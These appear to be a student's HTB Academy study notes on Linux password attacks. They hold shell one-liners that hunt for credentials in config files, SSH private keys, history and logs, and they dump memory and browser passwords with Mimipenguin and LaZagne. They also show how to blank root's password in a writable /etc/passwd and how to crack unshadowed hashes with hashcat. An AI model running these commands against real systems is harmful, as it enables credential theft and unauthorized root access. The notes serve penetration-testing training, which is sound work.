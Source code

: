 ## HTB-ACADEMY (Passsword attacks / Linux)
## Ivan Medina
---

### Credential Hunting in Linux

##### **Files**

##### *Configuration Files*

```for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done```

##### *Credentials in Configuration Files*

```for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done```

##### *Databases*

```for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done```

##### *Notes*

```find /home/* -type f -name "*.txt" -o ! -name "*.*"```

##### *Scripts*

```for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done```

##### *Cronjobs*

```cat /etc/crontab```
```ls -la /etc/cron.*/```

##### *SSH Keys*

**SSH Private Keys**

```grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"```

**SSH Public Keys**

```grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"```

##### *History*

**Bash History**

```tail -n5 /home/*/.bash*```

**Logs**

```for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done```

##### **Memory Cache**

##### *Memory - Mimipenguin*

```sudo python3 mimipenguin.py```

##### *Memory - LaZagne*

```sudo python2.7 laZagne.py all```

##### **Browsers**

##### *Firefox Stored Credentials*

```ls -l .mozilla/firefox/ | grep default```

```cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .```

##### *Decrypting Firefox Credentials*

```python3.9 firefox_decrypt.py```

##### *Browsers - LaZagne*

```python3 laZagne.py browsers```

### Passwd, Shadow & Opasswd 

##### **Passwd Format**

|Login name|		Password info	|	UID		|GUID	|	Full name/comments	|	Home directory	|	Shell|
|---|---|---|---|---|---|---|
|cry0l1t3	: |	x	: |	1000	: |	1000	: |	cry0l1t3,,,	: |	/home/cry0l1t3	: |	/bin/bash |

##### **Passwd File**

> /etc/passwd is readable system-wide, giving attackers the possibility to crack the passwords if hashes are stored here.
Usually, we find the value x in this field, which means that the passwords are stored in an encrypted form in the /etc/shadow file. However, it can also be that the /etc/passwd file is writeable by mistake. This would allow us to clear this field for the user root so that the password info field is empty. This will cause the system not to send a password prompt when a user tries to log in as root.

1. Editing /etc/passwd - Before
```root:x:0:0:root:/root:/bin/bash```
2. Editing /etc/passwd - After
```root::0:0:root:/root:/bin/bash```
3. Root without Password
```
[cry0l1t3@parrot]─[~]$ head -n 1 /etc/passwd
root::0:0:root:/root:/bin/bash
[cry0l1t3@parrot]─[~]$ su
[root@parrot]─[/home/cry0l1t3]#
```

##### **Shadow File**

> If there is no entry in the /etc/shadow file for a user in /etc/passwd, the user is considered invalid. The /etc/shadow file is also only readable by users who have administrator rights. 

##### **Shadow Format**

| Username	|	Encrypted password	 |	Last PW change	|	Min. PW age	|	Max. PW age	|	Warning period |	Inactivity period |	Expiration date	Unused |
|---|---|---|---|---|---|---|---|
|cry0l1t3	: |	$6$wBRzy$...SNIP...x9cDWUxW1	: |	18937	: |	0	: |	99999	: |	7	: |	: |	:|

``` $<type>$<salt>$<hashed> ```

##### **Algorithm Types**

- $1$ – MD5
- $2a$ – Blowfish
- $2y$ – Eksblowfish
- $5$ – SHA-256
- $6$ – SHA-512

##### **Opasswd**

The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. 

```
ivxnmxdxnx@htb[/htb]$ sudo cat /etc/security/opasswd
cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

##### **Cracking Linux Credentials**

##### *Unshadow*

```
ivxnmxdxnx@htb[/htb]$ sudo cp /etc/passwd /tmp/passwd.bak 
ivxnmxdxnx@htb[/htb]$ sudo cp /etc/shadow /tmp/shadow.bak 
ivxnmxdxnx@htb[/htb]$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

##### *Hashcat - Cracking Unshadowed Hashes*

```ivxnmxdxnx@htb[/htb]$ hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked```

##### *Hashcat - Cracking MD5 Hashes*

```
ivxnmxdxnx@htb[/htb]$ cat md5-hashes.list
qNDkF0zJ3v8ylCOrKB0kt0
E9uMSmiQeRh4pAAgzuvkq1
```

```
ivxnmxdxnx@htb[/htb]$ hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```
